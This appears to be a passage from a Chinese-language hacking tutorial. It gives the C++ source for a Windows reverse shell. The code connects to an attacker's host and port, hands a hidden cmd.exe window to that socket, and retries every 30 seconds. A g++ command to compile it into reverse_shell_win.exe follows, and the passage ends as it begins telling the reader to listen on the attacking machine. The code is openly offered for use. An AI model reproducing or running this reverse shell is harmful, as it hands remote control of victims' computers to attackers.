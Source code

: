 ```c++
        if(Winsock==INVALID_SOCKET){
            wprintf(L"WSASocket function failed with error = %d\n", WSAGetLastError() );
        }
        else{
            struct hostent *host; // 黑客主机信息
            host = gethostbyname(ip_addr);
            strcpy_s(ip_addr, inet_ntoa(*((struct in_addr *)host->h_addr)));
            hax.sin_family = AF_INET;
            hax.sin_port = htons(atoi(port));
            hax.sin_addr.s_addr = inet_addr(ip_addr);
            memset(&hax.sin_zero, 0, 8);
            err = connect(Winsock, (struct sockaddr *)&hax, sizeof(struct sockaddr));
            if (err == SOCKET_ERROR) {
                wprintf(L"connect function failed with error: %ld\n", WSAGetLastError());
                return 1;
            }else{
                memset(&ini_processo, 0, sizeof(ini_processo)); //初始化结构体
                ini_processo.cb = sizeof(ini_processo);
                ini_processo.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW; // 重定向，隐藏窗口
                // 将标准输入、输出、错误重定向到socket句柄
                ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

                TCHAR cmd[255] = TEXT("cmd.exe");

                CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);

                return 0;
            }
            err = closesocket((SOCKET)Winsock);
            if(err == SOCKET_ERROR){
                wprintf(L"closesocket function failed with error: %ld\n", WSAGetLastError());
                WSACleanup();
                return 1;
            }
            WSACleanup();
            return 0;
        }
        Sleep(30000); //休眠30s
    }
    return 0;
}
```

使用如下命令编译：

```css
g++ reverse_shell_win.cpp -static -lwsock32 -lws2_32 -o reverse_shell_win.exe
```

在攻击机上监听端口
